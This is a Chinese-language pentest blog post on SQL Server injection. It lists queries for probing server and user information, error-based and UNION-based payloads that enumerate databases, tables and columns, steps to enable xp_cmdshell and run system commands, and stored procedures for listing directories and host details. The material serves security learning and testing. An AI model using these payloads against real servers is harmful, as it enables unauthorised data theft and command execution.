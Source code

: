 +++
title = "SQL Server注入"
topics = ["Pentest"]
tags = ["injection"]
description = "SQL Server注入常见的一些注入手法"
date = "2018-09-04T10:09:17+08:00"
draft = false
+++

### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 判断是否为sa权限
![75](/img/post/20180904-105516.png)

### 0x02 进行注入
* 得到所有数据库名字
![75](/img/post/20180904-110306.png)
```
--报错得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
select id,name from msg where id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
```
![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```
--得到数据库test的第一张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名（先得到article的表id，然后得到列名）
![60](/img/post/20180904-112859.png)
![75](/img/post/20180904-112938.png)

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x03 常见的SQL Server扩展存储过程 
* 执行系统命令

```sql
--判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell');

--开启xp_cmdshell
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;

--使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```

